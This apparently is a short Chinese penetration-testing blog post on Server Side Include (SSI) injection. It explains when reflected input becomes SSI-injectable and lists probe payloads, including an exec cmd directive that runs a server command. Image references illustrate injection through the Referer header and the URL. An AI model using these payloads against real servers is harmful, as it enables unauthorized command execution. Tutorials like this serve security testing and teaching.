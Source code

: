 +++
date = "2017-06-08T11:20:15+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SSI注入"
topics = ["Pentest"]

+++

### 0x00 SSI
> SSI (Server Side Includes)是HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。

> 在很多场景中，用户输入的内容可以显示在页面中，一个存在反射XSS漏洞的页面，如果输入的payload不是xss代码而是ssi的标签，服务器又开启了ssi支持的话就会存在SSI漏洞

> 若注入点在url中则可能需要进行url编码

### 0x01 payload
> ```
"-->'-->`--><!--#set var="a" value="123"--><!--#set var="b" value="654"--><!--#echo var="a"--><!--#echo var="b"-->

<!--#echo var="DATE_LOCAL" -->

<!--#exec cmd="dir" -->
```

### 0x02 示例
* Referer被输出到了页面中

> {{% fluid_img src="/img/post/ssi_in_referer_request.png" alt="ssi漏洞" %}}
<br><br>
> {{% fluid_img src="/img/post/ssi_in_referer_response.png" alt="ssi漏洞" %}}

* url中的数据被输出到页面中(有时候url中的payload需要url编码)

> {{% fluid_img src="/img/post/ssi_in_url_request.png" alt="ssi漏洞" %}}
<br><br>
{{% fluid_img src="/img/post/ssi_in_url_response.png" alt="ssi漏洞" %}}
